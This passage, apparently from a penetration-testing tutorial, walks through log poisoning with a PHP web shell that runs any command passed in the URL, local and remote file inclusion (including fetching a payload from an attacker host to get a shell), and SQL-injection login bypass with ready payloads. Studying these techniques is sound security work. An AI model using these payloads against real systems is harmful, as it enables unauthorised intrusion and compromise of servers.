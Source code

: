 ```
<?php echo '<pre>' . shell_exec($_GET[‘cmd’]) . '</pre>';?>
```

Although we receive a "Bad Request" in netcat, the command is stored in the server's logs. Once logged, we can attempt command execution.

```
http://10.34.5.34/index.php?file=c:/log/file/location.log&cmd=id
```

If successful, the successful id command will be displayed on the web page.

#### Remote File Inclusion

RFIs are less common than LFIs due to typical default server configuration restrictions.

```
http://10.34.5.34/index.php?file=http://attackerip/evil.txt
```

If successful, we can further exploit this vulnerability to execute a number of malicious options to gain a shell on the target system

### SQL injection

SQL injection is a common vulnerability that enables attackers to inject commands and interact with databases. While typically exploited for data leakage, SQL vulnerabilities can also lead to server compromise.

#### Detection

The first step is to find input fields on the target site that likely interact with databases, such as login field, search fields, message threads, etc. We can use a single quote to check for potential vulnerabilities. Ideally, this will cause an error and we'll receive an indication from the server.

#### Authentication bypass

In normal operation we expect a login form to query the database, something like:

```
select * from users where name = 'admin' and password = 'password123';
```

We can manipulate the input to change how the command is processed by the database:

```
admin' or 1=1;#
```

Which results in query modification:

```
select * from users where name = 'admin' or 1=1;#' and password = 'password123';
```

The introduction of the single quote before the password entry removes the remainder of the statement. If this causes errors, we can also request a fixed number of returns using the LIMIT statement.

```
select * from users where name = 'admin' or 1=1 LIMIT 1;#
```
